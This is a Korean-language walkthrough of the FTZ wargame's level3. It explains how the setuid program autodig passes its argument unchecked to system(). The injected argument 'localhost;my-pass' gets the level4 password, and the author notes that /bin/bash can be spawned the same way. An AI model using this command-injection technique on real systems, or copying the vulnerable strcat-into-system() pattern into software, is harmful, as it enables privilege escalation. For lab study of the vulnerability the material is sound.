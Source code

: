 ```bash
[level3@ftz level3]$ cat hint


다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );

}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
```
이번엔 힌트가 조금 길지만 천천히 읽어 보면  
`autodig` 프로그램을 실행 했을때 인자의 수가 2개가 아니면 사용 방법을 알려주고  
맞는 경우 cmd라는 문자열 공간에 `dig @`를 복사 하고
두번째 인자를 붙이고 뒤에 ` version.bind chaos txt`라는 문자도 붙여서 실행하는 프로그램이다.

우선 아래와 같이 명령어를 입력하면
```bash
[level3@ftz level3]$ autodig localhost

; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached
```
위와 같이 실행된다.

힌트에 `동시에 여러 명령어를 사용하려면?` 이라는 것이 있는데 두가지 명령어를 동시에 사용하려면 `;` 등의 접속사를 사용하면 된다.

여기서 my-pass를 사용하면 되지 않을까란 생각이 든다.  
그래서 당당하게 아래와 같이 입력했다.
```bash
[level3@ftz level3]$ autodig localhost;my-pass

; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached

Level3 Password is "can you fly?".

```
아니 이건 나도 아는 패스워드이다.
도대체 어디가 잘못된 것 일까?

위와 같이 명령어를 입력하면 리눅스는 명령어를 아래 두가지로 인식한다
```bash
level3$ autodig localhost
level3$ my-pass
```
전부 level3의 권한으로 실행하는 것이다.

그럼 autodig 프로그램의 system 함수에 my-pass가 들어가도록 해야하기 때문에 명령어를 문자열로 바꾸어 따옴표를 붙여 준다.

```bash
[level3@ftz level3]$ autodig "localhost;my-pass"

; <<>> DiG 9.2.1 <<>> @localhost
;; global options:  printcmd
;; connection timed out; no servers could be reached

Level4 Password is "suck my brain".

```
또는 `/bin/bash`를 실행하여도 된다.

level4의 패스워드는 `suck my brain`이다.